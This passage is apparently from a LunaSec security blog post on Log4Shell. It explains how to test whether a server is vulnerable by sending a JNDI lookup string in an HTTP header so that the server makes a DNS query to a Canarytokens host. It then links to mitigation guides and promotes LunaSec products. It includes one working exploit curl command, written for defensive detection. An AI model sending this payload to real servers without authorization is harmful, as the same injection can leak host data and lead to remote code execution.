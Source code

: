 The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above,
the exploit will cause the vulnerable server to attempt to fetch some remote code.  By using the address
of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered.

[CanaryTokens.org](https://canarytokens.org/generate#) is an Open Source web app for this purpose that even generates the exploit string automatically
and sends an email notification when the DNS is queried.  Select `Log4Shell` from the drop-down menu. Then, embed the string
in a request field that you expect the server to log.  This could be in anything from a form
input to an HTTP header.  In our example above, the X-Api-Version header was being logged. This request should trigger it:

```shell
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.<RANDOM_STRING>.canarytokens.com/a}'
```

Note: 
These requests may not be private
If you wish to test more discretely, you may [setup your own authoritative DNS server](https://www.joshmcguigan.com/blog/run-your-own-dns-servers/)
for testing.

## More information

You can follow us on [Twitter](https://twitter.com/LunaSecIO), or subscribe below, and we'll continue to update you as
information about the impact of this exploit becomes available.

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**
- **[Explanation of the 2nd Log4j CVE](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)**
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limit your vulnerability to future attacks

[LunaSec](https://www.lunasec.io/docs/pages/overview/introduction/) is an Open Source Application Security framework
that helps [isolate and protect](https://www.lunasec.io/docs/pages/how-it-works/features/) you from 0-day attacks like
Log4Shell.

We also offer a [managed 0-day mitigation service](https://www.lunasec.io/pages/live-dependency-patching) that
automatically and quickly patches your live server's dependencies whenever a new 0-day is announced.
